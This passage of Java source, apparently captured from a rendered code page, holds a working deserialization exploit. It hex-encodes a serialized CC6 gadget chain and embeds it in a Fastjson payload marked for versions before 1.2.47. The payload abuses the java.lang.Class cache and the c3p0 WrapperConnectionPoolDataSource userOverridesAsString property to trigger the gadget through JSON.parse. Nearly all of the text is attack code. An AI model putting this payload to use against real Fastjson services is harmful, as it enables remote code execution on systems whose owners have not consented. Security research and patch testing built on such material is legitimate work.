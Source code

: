 ```java  
    
        return expMap;    
    }    
    
    
    static void addHexAscii(byte b, StringWriter sw)    
    {    
        int ub = b &amp; 0xff;    
        int h1 = ub / 16;    
        int h2 = ub % 16;    
        sw.write(toHexDigit(h1));    
        sw.write(toHexDigit(h2));    
    }    
    
    private static char toHexDigit(int h)    
    {    
        char out;    
        if (h &lt;= 9) out = (char) (h &#43; 0x30);    
        else out = (char) (h &#43; 0x37);    
        //System.err.println(h &#43; &#34;: &#34; &#43; out);    
        return out;    
    }    
    
    //将类序列化为字节数组    
    public static byte[] tobyteArray(Object o) throws IOException {    
        ByteArrayOutputStream bao = new ByteArrayOutputStream();    
        ObjectOutputStream oos = new ObjectOutputStream(bao);    
        oos.writeObject(o);    
        return bao.toByteArray();    
    }    
    
    //字节数组转十六进制    
    public static String toHexAscii(byte[] bytes)    
    {    
        int len = bytes.length;    
        StringWriter sw = new StringWriter(len * 2);    
        for (int i = 0; i &lt; len; &#43;&#43;i)    
            addHexAscii(bytes[i], sw);    
        return sw.toString();    
    }    
    
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, PropertyVetoException {    
        String hex = toHexAscii(tobyteArray(CC6()));    
        System.out.println(hex);    
    
        //Fastjson&lt;1.2.47    
        String payload = &#34;{&#34; &#43;    
                &#34;\&#34;1\&#34;:{&#34; &#43;    
                &#34;\&#34;@type\&#34;:\&#34;java.lang.Class\&#34;,&#34; &#43;    
                &#34;\&#34;val\&#34;:\&#34;com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\&#34;&#34; &#43;    
                &#34;},&#34; &#43;    
                &#34;\&#34;2\&#34;:{&#34; &#43;    
                &#34;\&#34;@type\&#34;:\&#34;com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\&#34;,&#34; &#43;    
                &#34;\&#34;userOverridesAsString\&#34;:\&#34;HexAsciiSerializedMap:&#34;&#43; hex &#43; &#34;;\&#34;,&#34; &#43;    
                &#34;}&#34; &#43;    
                &#34;}&#34;;    
        JSON.parse(payload);    
    }    
}  
```